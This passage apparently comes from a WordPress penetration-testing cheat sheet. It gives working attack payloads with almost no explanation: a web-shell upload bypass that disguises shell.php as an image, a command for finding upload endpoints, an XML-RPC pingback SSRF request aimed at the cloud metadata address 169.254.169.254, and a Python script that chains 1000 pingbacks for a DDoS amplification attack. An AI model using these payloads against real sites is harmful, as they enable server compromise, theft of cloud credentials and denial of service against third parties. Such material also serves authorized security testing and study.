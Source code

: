 ### 8. File Upload Vulnerabilities

#### Media Upload Bypass
```php
// Upload PHP disguised as image
cp shell.php shell.php.jpg
# Then rename after upload via plugin vulnerability
```

#### Plugin Upload Points
```bash
# Find upload endpoints
find /var/www/html -name "*.php" -exec grep -l "move_uploaded_file\|file_put_contents" {} \;
```

### 9. XML-RPC Exploitation

#### Pingback SSRF
```xml
POST /xmlrpc.php HTTP/1.1
Content-Type: application/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param><value>http://localhost:8087/?p=1</value></param>
    <param><value>http://169.254.169.254/latest/meta-data/</value></param>
  </params>
</methodCall>
```

#### Amplification Attack
```python
# DDoS via pingback
import requests

xml = """<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params>
    <param>
      <value>
        <array>
          <data>
""" + "<value><struct><member><name>methodName</name><value>pingback.ping</value></member><member><name>params</name><value><array><data><value>http://target.com</value><value>http://localhost:8087/?p=1</value></data></array></value></member></struct></value>" * 1000 + """
          </data>
        </array>
      </value>
    </param>
  </params>
</methodCall>"""

requests.post('http://localhost:8087/xmlrpc.php', data=xml)
```
